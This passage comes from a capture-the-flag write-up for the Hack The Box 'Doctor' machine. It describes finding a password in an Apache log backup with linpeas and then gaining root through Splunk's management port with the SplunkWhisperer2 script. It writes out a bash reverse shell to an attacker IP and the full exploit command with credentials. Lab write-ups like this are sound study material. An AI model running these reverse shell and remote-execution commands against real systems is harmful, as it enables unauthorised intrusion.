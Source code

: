 ![](/assets/images/doctor/shell1.png)

# [](#header-1)Lateral Movement

Now the next part was really hard for me, but we just need to throw linpeas and read carefully every single line of its output until we see that there is a backup under "/var/log/apache2" (actually the image of the machine had a hint for it) that we can read, there we find the password of "shaun", "Guitar123". And with that we get the "user.txt".

![](/assets/images/doctor/shell2.png)

# [](#header-1)Privilege Escalation

Now we go back to our port scan, there is a port that we haven't touch, splunkd is running on the port 8089, serching about it we find that there is a [RCE script](https://github.com/cnotin/SplunkWhisperer2) that would allow us to get code execution as root on the machine, so we clone the repository, then using the shell that we have on the machine we create a directory called ".empty" under "/tmp", and inside there a file named "shell" that will contain a reverse shell code inside, `bash -i >& /dev/tcp/10.10.15.13/54322 0>&1`. After we had set up a listener for the conection we execute the script to get a shell, `python PySplunkWhisperer2_remote.py --host 10.10.10.209 --user shaun --password Guitar123 --payload-file shell.sh --payload "bash /tmp/.empty/shell" --lhost 10.10.15.13`, we specify the user and password of splunkd, payload-file is just the name under the script will be executed, payload will read the file and execute what is there, and lhost is our machine where a deployement application will be hold and serve the malicious app, so we execute it.

![](/assets/images/doctor/splunkwhisperer.png)
